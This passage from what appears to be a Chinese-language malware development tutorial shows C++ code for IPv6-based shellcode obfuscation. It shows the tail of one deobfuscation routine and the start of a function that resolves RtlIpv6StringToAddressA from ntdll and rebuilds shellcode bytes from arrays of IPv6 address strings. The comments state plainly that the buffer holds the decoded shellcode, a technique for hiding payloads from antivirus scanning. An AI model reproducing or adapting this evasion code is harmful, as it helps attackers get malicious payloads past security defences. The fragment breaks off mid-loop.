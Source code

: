 ```c++
			return FALSE;
		}

		// 4 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 4 to store the upcoming 4 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 4);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress     = pBuffer;
	*pDSize         = sBuffSize;

	return TRUE;
}
```

### IPv6反混淆

代码示例

```c++
typedef NTSTATUS(NTAPI* fnRtlIpv6StringToAddressA)(
	PCSTR		S,
	PCSTR*		Terminator,
	PVOID		Addr
);

BOOL Ipv6Deobfuscation(IN CHAR* Ipv6Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE           pBuffer                 = NULL, 
                    TmpBuffer               = NULL;

	SIZE_T          sBuffSize               = NULL;

	PCSTR           Terminator              = NULL;

	NTSTATUS        STATUS                  = NULL;

	// Getting RtlIpv6StringToAddressA address from ntdll.dll
	fnRtlIpv6StringToAddressA pRtlIpv6StringToAddressA = (fnRtlIpv6StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv6StringToAddressA");
	if (pRtlIpv6StringToAddressA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of IPv6 addresses * 16
	sBuffSize = NmbrOfElements * 16;


	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	TmpBuffer = pBuffer;

	// Loop through all the IPv6 addresses saved in Ipv6Array
	for (int i = 0; i < NmbrOfElements; i++) {

```